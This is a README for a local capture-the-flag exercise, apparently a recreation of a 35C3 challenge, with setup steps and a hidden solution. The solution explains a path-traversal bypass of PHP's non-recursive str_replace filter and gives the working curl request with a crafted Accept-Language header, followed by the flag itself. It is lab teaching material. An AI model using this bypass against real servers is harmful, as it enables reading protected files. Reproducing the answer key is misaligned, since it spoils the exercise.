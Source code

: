 # Flags

### 📄 Description
Welcome to fun with flags.

Flag is at /flag

### ⚙ How to run it
Be sure that the the entire folder has the right permissions.
To do it, open the terminal and write:
```bash
chmod -R +rx ./
```

To execute the exercise, do the following on the terminal:
```bash
sudo docker-compose up
```

### ⛔ Rules
You don't have access to `data` folder.

<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
    
* we can see the php source code
* it uses `str_replace` to "escape" the header and prevent path traversal
* `str_replace` doesn't recursively replace the source string so it's easily bypassed

```
curl 'http://localhost:1235/' -H 'Accept-Language: ....//....//....//....//flag'
```

<h3> 🚩 Flag </h3>

```
35c3_this_flag_is_the_be5t_fl4g
```
</details>